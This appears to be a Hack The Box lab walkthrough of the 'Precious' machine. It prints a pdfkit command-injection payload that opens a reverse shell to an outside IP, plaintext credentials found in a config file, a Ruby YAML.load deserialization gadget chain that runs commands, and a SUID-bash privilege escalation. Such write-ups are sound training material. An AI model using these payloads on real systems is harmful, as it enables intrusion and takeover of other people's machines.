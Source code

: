 ```yaml
---
layout: post
title: "HTB: Precious"
author: Andrew Cherney
date: 2023-05-21 08:20:27
tags: htb easy-box linux webapp deserialization cve ruby yaml
icon: "assets/icons/precious.png"
post_description: "We start this machine by exploiting a command injection of a ruby package to gain a foothold, and escalate that to user with hard coded credentials. For root a simple ruby script exploitation of a load() function will do the trick."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Precious]
└──╼ $nmap -Pn 10.10.11.189
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-24 19:54 CST
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

I'll add <code>10.10.11.189 precious.htb</code> to my **/etc/hosts** file.

<h2>Port 80 - http</h2>

![Web Page to PDF](/img/precious/Precious_webpage_to_pdf.png)

The webpage takes a url and returns the pdf of that page. I tried fuzzing the parameters but it is very fussy about if it is a url, and will return a blank pdf if any escape characters are used. I tried looking into the request itself but there wasn't anything special. I did however look into exiftool on the returned pdf and found something noteworthy.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/Downloads]
└──╼ $exiftool lqe0xeipshi2qi6xl6ul6w69mddf81an.pdf 
ExifTool Version Number         : 12.16
File Name                       : lqe0xeipshi2qi6xl6ul6w69mddf81an.pdf
Directory                       : .
File Size                       : 4.5 KiB
File Modification Date/Time     : 2023:02:24 20:44:32-06:00
File Access Date/Time           : 2023:02:24 20:44:32-06:00
File Inode Change Date/Time     : 2023:02:24 20:44:32-06:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

<h1>Shell as ruby</h1>

<h2>pdfkit v0.8.6</h2>

Ladies and gentlemen we have what generated this, and would you believe that pdfkit v0.8.6 is vulnerable to CVE-2022-25765. With **?name=%20`** you can run arbitrary code past the grave. From an in-depth analysis of the CVE: **If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF**. Below is the payload I can toss into the webpage to gain a shell:

```
http://?name=%20`bash -c 'bash -i >& /dev/tcp/10.10.14.14/7777 0>&1'`
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Precious]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.189] 43208
bash: cannot set terminal process group (677): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$
```

I added an ssh key for future reconnection and a better shell. 

<h1>User as henry</h1>

In the ruby home directory I find another directory, which looking inside I see what looks like henry's credentials.

```bash
ruby@precious:~$ cd .bundle
ruby@precious:~/.bundle$ ls
config
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ 
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Precious]
└──╼ $ssh henry@precious.htb
henry@precious.htb's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ cat user.txt
1969b57ae399e77-----------------
```

<h1>Root</h1>

```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Looks to be a custom script to verify dependency versions written in ruby. I do some digging and find [that the yaml.load() function has been vulnerable for a long time to RCE](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/). I make my payload and run the exploit.

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

The command that this exploit runs is after the git_set parameter. When yaml.load() accepts user input you can require a dependency that escapes to the system method within the kernel and run commands. It's out of the scope of my writeups but [SafeYAML](https://danieltao.com/safe_yaml/) is apparently the recommended fix.

```bash
henry@precious:~$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
    ...
    ...
```

Bingo, RCE. I'll change id to **chmod u+s /bin/bash** and gain a root shell.

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# cat /root/root.txt
bea16d93eba8a559----------------
```



